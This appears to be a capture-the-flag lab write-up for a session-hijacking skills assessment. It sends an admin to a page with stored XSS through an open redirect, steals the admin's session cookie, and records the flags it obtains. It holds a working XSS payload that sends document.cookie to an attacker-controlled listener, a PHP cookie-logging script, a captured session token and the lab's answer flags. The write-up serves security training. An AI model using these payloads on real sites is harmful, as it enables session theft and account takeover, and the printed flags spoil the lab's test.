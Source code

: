```yaml
---
sticker: emoji//1f512
---
```


# Skills Assessment

You are currently participating in a bug bounty program.

* The only URL in scope is `http://minilab.htb.net`
* Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
* Test account credentials:
  * Email: heavycat106
  * Password: rocknrol
* Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![](gitbook/cybersecurity/images/Pasted%20image%2020250219131413.png)

## First Question

***

Let's begin by checking the URL:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219135123.png)

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219135255.png)

Now, let's share:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219135309.png)

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219135805.png)

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219140213.png)

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219140807.png)

If we refresh the page:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219140815.png)

We are now admin user, let's make it public:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219140839.png)

If we go to share, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219140922.png)

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

## Second Question

***

Now, let's open the pcap file:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219142017.png)

We can filter:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219142255.png)

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250219142323.png)

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250219142344.png)
